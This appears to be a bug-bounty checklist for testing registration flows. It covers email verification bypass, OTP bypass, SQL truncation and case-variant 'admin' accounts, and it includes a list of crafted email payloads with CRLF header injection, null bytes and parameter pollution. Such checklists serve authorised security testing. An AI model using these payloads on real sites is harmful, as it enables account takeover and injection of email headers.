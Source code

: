 > _**\[\[Registration]] Abuse**_

* [ ] Username/Email Enumeration > Non-Brute Force
* [ ] SQL Injection
* [ ] Signup and don't confirm the your email -> change email to others emails like `suppor@bugcrowd.com` -> confirm old email -> _**Email Verification Bypass**_
* [ ] Email Verification link Doesn't Expire After Email Change
* [ ] Verification link **leaked in the response**
* [ ] Verification Bypass via **Response Manipulation**
* [ ] [**Ability to bypass partner email confirmation to take over any store given an employee email**](https://hackerone.com/reports/300305)
* [ ] Signup and don't confirm the your email `emailA@gmail.com` -> change email to others emails like `emaiB@gmail.com` -> confirm new email -> Re-change email to your old Email -> _**Email Verification Bypass**_
*   [ ] \*ATO or **Duplicate Registration** by **manipulating email parameter (BAC)**

    ```python
    H0tak88r@bugcrowdninja.com
    MAybeeEE@GmaiL.coM
    h0tak88r+1@bugcrowdninja.com
    h0tak88r@bugcrowdninja.com a
    h0tak88r%00@bugcrowdninja.com
    h0tak88r%09@bugcrowdninja.com
    h0tak88r%20@bugcrowdninja.com
    victim@gmail.com@attacker.com
    victim@gmail.com@attacker.com
    victim@mail.com%0A%0Dcc:hacker@mail.com
    victim@mail.com%0A%0Dbcc:hacker@mail.com
    {"email":["victim@mail.com","hacker@mail.com"]}
    victim@mail.com&email=hacker@mail.com
    victim@mail.com,hacker@mail.com
    victim@mail.com%20hacker@mail.com
    victim@mail.com|hacker@mail.com
    victim@mail.com&Email=attacker@mail.com
    email@email.com,victim@hack.secry
    email@email“,”victim@hack.secry
    email@email.com:victim@hack.secry
    email@email.com%0d%0avictim@hack.secry
    %0d%0avictim@hack.secry
    %0avictim@hack.secry
    victim@hack.secry%0d%0a
    victim@hack.secry%0a
    victim@hack.secry%0d
    victim@hack.secr%00
    victim@hack.secry{{}}
    victim@gmail.com\n
    ```
* [ ] Make 2 Accounts Same in everything \[username and another things] but with Different email ID >> **ATO**
* [ ] [Duplicate Registration - The Twinning Twins | by Jerry Shah (Jerry) | Medium](https://shahjerry33.medium.com/duplicate-registration-the-twinning-twins-883dfee59eaf)
* [ ] Create user named: **AdMIn** (uppercase & lowercase letters)
* [ ] Create a user named: **admin=**
* [ ] **SQL Truncation Attack** (when there is some kind of **length limit** in the username or email) --> Create user with name: **admin \[a lot of spaces] a**
* [ ] _**OTP BYPASS**_
  * Response Manipulation
  * By repeating the form submission multiple times using repeater
  * Brute Forcing
  * \[\[JSON Tests Cheat Sheet]] -> Array of codes.....
  * Check for default OTP - 111111, 123456, 000000,4242
  * leaked in response
  * old OTP is still valid
  * Integrity Issues -> use someones else OTP to open your account